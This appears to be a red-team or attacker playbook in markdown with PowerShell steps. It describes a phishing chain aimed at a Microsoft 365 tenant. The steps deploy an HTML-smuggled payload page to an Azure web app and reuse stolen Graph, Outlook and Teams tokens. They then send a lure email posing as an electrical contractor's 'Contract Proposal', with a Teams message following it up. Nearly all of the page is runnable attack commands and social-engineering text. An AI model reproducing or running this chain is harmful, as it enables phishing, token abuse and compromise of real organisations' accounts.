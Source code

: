 
## Payload to Intune Admin

### Setup First Payload Delivery
### from Teamfiltration, loot, up to O365
```powershell
cd ../../
pwd
$app = "OneDriveBusinessSSO"
$rg = "Phishing"
$path = ".\Payloads\Packages\dropd-shrine48-img\phishing"
cd $path
az webapp up -g $rg -n $app --sku free --html

# or Serve w/ custom NSG rules
# .\Payloads\Packages\dropd-shrine48-img\serve.ps1 -deploy
cd ..\..\..\..\

# az webapp delete -g $rg -n $app
```

### If you need a new token
```powershell
Clear-Token
Get-AzureToken -Client Graph
```

### Email and Teams the Payload Link
### Will link to html smuggled payload
```powershell
$tenant = "shrine.cloud"
$url = "http://$app.azurewebsites.net"
$target = 'targettim@shrine.cloud'

$msg = "<div>Hi!<br/>This is a message sent to you by <a href='https://Sharprootelectricalservices.com'>Sharproot Electrical</a>. <br/><br/>Your document is  <a href='{1}'>ready</a> <b></b>.<br/><br/> Click here to view: <b>$url</b>.</div>"
# try this msg2 as well

$msg2 = "<div>Hi!<br/>This is a message sent to you by <a href=$url>Sharproot Electrical</a>. <br/><br/>Your document is  <a href='{1}'>ready</a> <b></b>.<br/><br/> Click here to view: <b>$url</b>.</div>"

$subject = 'Contract Proposal'

### Send the Phish w/ Function
Send-AADIntOutlookMessage -AccessToken $OutlookToken.access_token -Recipient $target -Subject $subject -Message $msg

### Send the link with Teams
RefreshTo-MSTeamsToken -domain $tenant -refreshToken $response.refresh_token
$MSTeamsToken.access_Token

Send-AADIntTeamsMessage -AccessToken $MSTeamsToken.access_Token -Recipients $target -Message "Just sent you an email, look what they just offered: $url"
```
